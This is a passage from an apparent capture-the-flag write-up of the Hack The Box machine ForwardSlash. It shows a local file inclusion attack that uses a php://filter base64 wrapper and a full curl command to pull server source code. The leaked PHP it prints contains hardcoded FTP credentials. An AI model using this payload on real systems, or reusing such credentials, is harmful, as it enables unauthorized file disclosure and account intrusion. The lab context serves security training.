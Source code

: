 Remembering to our gobuster, we have a /dev endpoint that we haven't enumerated yet.

### /dev endpoint

Going to http://backup.forwardslash.htb/dev/, we get a 403 Access Denied.

![Webpage dev 403](/assets/htb/ForwardSlash/webpage-dev.png)

We can try to use the LFI to read the `/dev/index.php` file using: `url=FILE:///var/www/backup.forwardslash.htb/dev/index.php`, however we get `Permission Denied; not that way ;)`.

We can try to bypass the read-restriction by using the base64 php wrapper: `php://filter/convert.base64-encode/resource=<file>`.

![LFI Dev](/assets/htb/ForwardSlash/lfi-dev.png)

We can use curl to quickly get our data:

```bash
root@darkness:~# curl -s -X POST http://backup.forwardslash.htb/profilepicture.php -d 'url=php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/dev/index.php' -b 'PHPSESSID=oi2krfc55smq93s9hkcl7vktic' | grep -A 1 '</html>' | grep -v '</html>' | base64 -d > dev-index.php
```

We can now read `dev-index.php`:

```php
[...]
<?php
if ($_SERVER['REQUEST_METHOD'] === "GET" && isset($_GET['xml'])) {

        $reg = '/ftp:\/\/[\s\S]*\/\"/';
        //$reg = '/((((25[0-5])|(2[0-4]\d)|([01]?\d?\d)))\.){3}((((25[0-5])|(2[0-4]\d)|([01]?\d?\d))))/'

        if (preg_match($reg, $_GET['xml'], $match)) {
                $ip = explode('/', $match[0])[2];
                echo $ip;
                error_log("Connecting");

                $conn_id = ftp_connect($ip) or die("Couldn't connect to $ip\n");

                error_log("Logging in");

                if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {

                        error_log("Getting file");
                        echo ftp_get_string($conn_id, "debug.txt");
```